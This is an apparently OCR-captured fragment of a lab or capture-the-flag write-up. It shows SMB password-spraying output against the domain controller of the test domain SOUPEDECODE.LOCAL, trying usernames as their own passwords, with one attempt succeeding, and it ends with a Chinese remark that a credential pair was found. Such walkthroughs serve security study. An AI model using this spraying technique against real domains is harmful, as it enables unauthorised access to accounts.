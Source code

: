 ```PowerShell
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\otara1:otara1 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:kleo2 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\eyara3:eyara3 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\pquinn4:pquinn4 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\jharper5:jharper5 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\bxenia6:bxenia6 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\gmona7:gmona7 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\oaaron8:oaaron8 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\pleo9:pleo9 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\evictor10:evictor10 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\bgavin12:bgavin12 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\ndelia13:ndelia13 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\akevin14:akevin14 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\kxenia15:kxenia15 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\ycody16:ycody16 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\qnora17:qnora17 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\dyvonne18:dyvonne18 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\qxenia19:qxenia19 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\rreed20:rreed20 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\icody21:icody21 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\ftom22:ftom22 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\ijake23:ijake23 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\rpenny24:rpenny24 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\jiris25:jiris25 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\colivia26:colivia26 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\pyvonne27:pyvonne27 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\zfrank28:zfrank28 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
```
成功获取到了一对用户密码
